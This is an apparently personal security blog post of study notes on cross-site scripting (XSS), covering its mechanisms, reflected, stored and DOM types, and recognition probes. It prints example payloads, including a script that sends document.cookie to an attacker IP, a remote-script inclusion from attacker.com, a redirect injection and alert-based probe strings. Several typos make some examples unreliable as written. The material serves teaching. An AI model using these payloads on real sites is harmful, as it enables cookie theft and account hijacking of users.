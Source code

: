 ```yaml
---
title: Cross-site scripting (XSS)
date: 2022-02-14 12:00:00 -0400
image: 
 path: https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/xss.jpg
 height: 1100
 width: 500
categories: [Web Security, Portswigger Academy]
tags: [web security, theory, owasp, xss]
---
```


Cross-site scripting known as XSS is a web vulnerability in which malicious scripts are injected int benign and trusted websites. XSS occur when an attacker send malicious code in any user input fields in a browser to a different end-user. 

## Mechanisms

In an XSS attack the attacker inject script in HTML code so you'll have to know javascript and HTML syntax, wbe uses scripts to control client-side application logic and make the website interactive, for example this script generates *Hello!* pop-up on the web page:

```html
<html>
    <script>alert("Hello!");</script>
    <h1>Welcome to my page</h1>
<html>
```
Script like this that are embedded in HTML file instead of loaded from are separated file are called *inline scripts*. These script causes XSS vulnerabilities, scripts can also be loaded from an external file like this: `<script src="URL_OF_EXTERNAL_FILE"></script>` 

If the website doesn't validate the input before render the message, it will cause XSS, *validating* user input means that the application checks that the user input meets a certain standard, *sanitizing* in the other hand means that the application modifies special characters in the input that can be used to interfere with HTML logic before further processing. 

As a result the inline script will cause a redirection to an another url. The src attribute of HTML script tag allwo to load javascript form external source, this code will execute the content of *https://attacker.om/xss.js/* on the victim browser:

```html
<script src=http://attacker.com/xss.js></script>
```
This example is not exploitable because there is no way of inject this in other users pages, but let´s say the site allow users to subscribe to a newsletter with the URL `https://subscribe.com?email?=USER_EMAIL` after the user visit this page, they are automatically subscribed, and the confirmation message will appear on the web, so we can inject xss payload for users who visit this URL `https://subscribe,com?email=<script>location="http://attacker.com";</script>` since the malicious script is incorporated in the page, the user will think its safe, so we can access any resources that the browser stores for that site, for example this code will steal user cookies by sending a request to the attacker IP.

```html
<script>image=new Image();
image.src='http://atttacker_site_ip/?c='+document.cookie;</script>
```


## Reflected XSS
Input from a user is directly returned to the browser, permitting injection of arbitrary content
A classic example would be a URL, which contain a parameter that can be altered by a user, where the input is mirrored and made visible.
Example URL: 'https://example.com/?user=jesus'
Example Output:

```html
<span id='user'>
	<b> Hi jesus</b>
</span>
```
## Stored XSS
Input from a user is stored on the server (database) and returned later without proper escaping and sanitization to the user
## DOM XSS
Input from a user is inserted into the page's DOM without proper handling, enabling insertion of arbitrary nodes


![](https://raw.githubusercontent.com/s4yhii/s4yhii.github.io/master/assets/images/Portswigger/sqli1.jpg)

Recognition for XSS

- Figure out where it goes, embedded in a tag attr or embedded in a script?
- Figure out how special characters are handled: A good way is to input something like `< > ' " { } ; :`

- `"><h1>test</h1>`
- `'+alert(1)+'`
- `"onmouseover="alert(1)`
- `http://onmouseover="alert(1)`